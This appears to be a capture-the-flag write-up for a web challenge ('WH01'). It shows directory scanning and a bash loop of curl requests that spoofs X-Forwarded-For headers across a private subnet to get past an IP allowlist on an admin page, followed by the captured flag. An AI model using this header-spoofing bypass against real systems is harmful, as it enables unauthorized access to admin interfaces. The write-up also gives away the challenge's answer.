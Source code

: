 # WH01
> 500pts

## Briefing
> Access the site at https://cfta-wh01.allyourbases.co and find a way to get the flag from the CMS.

## Solution
First, scan for directories. I used [dirsearch](https://github.com/maurosoria/dirsearch), which uncovered two interesting pages:
* `admin.html` (0 bytes)
* `readme.txt`

### Figuring out what to do
If you visit [readme.txt](https://cfta-wh01.allyourbases.co/readme.txt), you get this message:
```
To use the CMS make sure to visit /admin.html from allowed IPs on the local network.

Note: Tell engineering to stop moving the subnet from 192.168.0.0/24
```

We can infer two things:
1. Only *certain* IPs on the local network can access /admin.html
2. The local network subnet is `192.168.0.0/24`

From this, we can determine that in order to access `/admin.html`, we need to **spoof with an IP in the range of `192.168.0.0/24` (ex: 192.168.0.3; the last digit can be any number from 0 to 256)**.

#### To spoof the IP, all we have to do is send an `X-Forwarded-For` header in our request.

### Exploiting
I wrote a trusty bash script to do the job:

```sh
for i in {0..256}
do
  echo "IP: 192.168.0.$i"
  curl -i -H "X-Forwarded-For: 192.168.0.$i" https://cfta-wh01.allyourbases.co/admin.html
done
```
> **Note:** This really isn't the most efficient way, and I just used `grep` after to find the successful IP, which was **192.168.0.62**

Success! We're on the admin page and we've got the flag.
```html
<!DOCTYPE html>

<html lang="en">
<head>
    <title>My Blog</title>
    <link rel="stylesheet" href="mysite.css">
</head>
<body>
<div class="main">
    <div class="center">
        <div class="header">
            <h1>Admin</h1>
        </div>
        <div class="content flag">
            <h2>Flag</h2>
            iPSpooFinGWiThHopHeaDers91918
        </div>
        <div class="footer">
            Powered By: mycustomcms 2021
        </div>
    </div>
</div>
</body>
</html>
```

## Flag
Flag: `iPSpooFinGWiThHopHeaDers91918`
